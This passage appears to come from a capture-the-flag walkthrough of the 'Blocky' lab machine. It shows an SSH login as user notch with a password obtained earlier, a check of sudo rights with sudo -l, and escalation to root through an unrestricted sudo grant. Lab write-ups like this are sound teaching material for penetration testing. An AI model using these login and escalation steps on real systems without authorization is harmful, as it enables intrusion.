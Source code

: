 ```
──(root@kali)-[~]
└─# ssh notch@10.10.10.37                                                                                                                                                                                                               130 ⨯
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Sun Jun  6 21:23:48 2021 from 10.10.14.36
notch@Blocky:~$ 
```

Something I always do whenever I get on a box is try to run `sudo -l`. `sudo -l` will list the allowed (and forbidden) commands for the invoking user (the user we compromised). Executing this command shows this output: 

```
notch@Blocky:~$ sudo -l
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

When we see this `(ALL : ALL) ALL`, this means that the user `notch` can run any command as sudo. So this will just be as simple as running `sudo su` and we'll get root.

```
notch@Blocky:~$ sudo su
root@Blocky:/home/notch# id && whoami
uid=0(root) gid=0(root) groups=0(root)
root
```

And that's it for this box!

